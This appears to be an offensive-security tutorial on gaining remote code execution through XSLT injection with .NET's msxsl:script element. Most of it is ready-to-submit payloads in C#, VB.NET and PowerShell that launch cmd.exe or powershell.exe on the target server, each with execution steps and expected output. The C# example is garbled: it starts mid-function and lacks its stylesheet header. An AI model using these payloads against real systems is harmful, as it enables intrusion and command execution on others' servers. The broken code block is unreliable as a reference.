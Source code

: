 ```yaml
---
title: Remote Code Execution with Native .NET Explained
description: Learn how to achieve remote code execution using .NET's msxsl:script
  in XSLT injection for web server environments.
keywords:
- Remote Code Execution
- .NET
- msxsl:script
- XSLT Injection
- C#
- VB.NET
- PowerShell
- Process.Start
- XML Parsing
- Cybersecurity
---
```


# Remote Code Execution with Native .NET

## Context

Remote Code Execution (RCE) through XSLT injection using native .NET capabilities is a potent technique used in offensive cybersecurity operations. This technique leverages the `msxsl:script` extension to embed C# or VB.NET code within XSLT stylesheets, which enables attackers to execute arbitrary commands on the target machine. Knowledge of XSLT processing, XML parsing, .NET framework, and prior experience with XSLT Injection is assumed for this process.

## Theory

### Native .NET XSLT Scripting Capabilities

The `msxsl:script` element is a powerful feature within .NET XSLT processors that facilitates the embedding and execution of inline .NET code, typically written in C# or VB.NET, directly within XSLT stylesheets. When a vulnerable application processes an XSLT input, it may inadvertently execute injected `msxsl:script` code, leading to arbitrary command execution.

### Execution Context and Trust Boundaries

When XSLT transformations occur within a web application, they often inherit the same permissions and execution context as the application itself. This includes the ability to execute commands on the operating system. An attacker can exploit this by injecting an `msxsl:script` block, triggering code execution, and retrieving output through the XSLT transformation process.

### Common Exploitation Patterns

- **System.Diagnostics.Process.Start**: Frequently used to invoke OS commands from within C#/VB.NET code by setting `ProcessStartInfo` parameters such as `FileName` and `Arguments`. See the [Common Process-Launching Logic](#common-process-launching-logic) section for details.
- **Assembly.Load or Reflection**: Advanced techniques to load arbitrary .NET assemblies and execute methods directly or via PowerShell scripts.

### Common Process-Launching Logic

The following logic is commonly used to launch processes in C#, VB.NET, and PowerShell:

```csharp
System.Diagnostics.Process proc = new System.Diagnostics.Process();
proc.StartInfo.FileName = "cmd.exe";
proc.StartInfo.Arguments = "/c " + cmd;
proc.StartInfo.UseShellExecute = false;
proc.StartInfo.RedirectStandardOutput = true;
proc.Start();
string output = proc.StandardOutput.ReadToEnd();
proc.WaitForExit();
return output;
    }
  </msxsl:script>
  <xsl:template match="/">
    <xsl:value-of select="user:Execute('whoami')"/>
  </xsl:template>
</xsl:stylesheet>
```

- This payload injects C# code into an XSLT stylesheet, allowing OS command execution and output retrieval.

- **Execution:**
  - Submit this payload as the XSLT input to the vulnerable endpoint processing XSLT.

- **Expected Output:**

```
text block
Output will contain the result of the executed command (e.g., current user).
```

### Remote Code Execution via `msxsl:script` (VB.NET) Injection

- **Payload:**

```xml
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
                xmlns:msxsl="urn:schemas-microsoft-com:xslt"
                xmlns:user="urn:my-scripts" version="1.0">
  <msxsl:script language="VB" implements-prefix="user">
    Public Function Execute(cmd As String) As String
      Dim proc As New System.Diagnostics.Process()
      proc.StartInfo.FileName = "cmd.exe"
      proc.StartInfo.Arguments = "/c " & cmd
      proc.StartInfo.UseShellExecute = False
      proc.StartInfo.RedirectStandardOutput = True
      proc.Start()
      Dim output As String = proc.StandardOutput.ReadToEnd()
      proc.WaitForExit()
      Return output
    End Function
  </msxsl:script>
  <xsl:template match="/">
    <xsl:value-of select="user:Execute('whoami')"/>
  </xsl:template>
</xsl:stylesheet>
```

- This VB.NET variant accomplishes the same command execution in environments where C# support is unavailable.

- **Execution:**
  - Submit the payload to the vulnerable XSLT processing endpoint.

- **Expected Output:**

```
text block
Output will display command execution result.
```

### Remote Code Execution via PowerShell from XSLT

- **Payload:**

```xml
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
                xmlns:msxsl="urn:schemas-microsoft-com:xslt"
                xmlns:user="urn:my-scripts" version="1.0">
  <msxsl:script language="C#" implements-prefix="user">
    public string RunPS(string cmd) {
      System.Diagnostics.Process proc = new System.Diagnostics.Process();
      proc.StartInfo.FileName = "powershell.exe";
      proc.StartInfo.Arguments = "-Command \"" + cmd + "\"";
      proc.StartInfo.UseShellExecute = false;
      proc.StartInfo.RedirectStandardOutput = true;
      proc.Start();
      string output = proc.StandardOutput.ReadToEnd();
      proc.WaitForExit();
      return output;
    }
  </msxsl:script>
  <xsl:template match="/">
    <xsl:value-of select="user:RunPS('Get-ChildItem C:\\')"/>
  </xsl:template>
</xsl:stylesheet>
```

- This technique allows execution of arbitrary PowerShell commands, significantly enhancing the attacker's post-exploitation capabilities.

- **Execution:**
  - Send the payload to the vulnerable XSLT endpoint.

- **Expected Output:**

```
text block
Output will show PowerShell command results.
```

## Tools

- **Burp Suite**
- **curl**
- **Postman**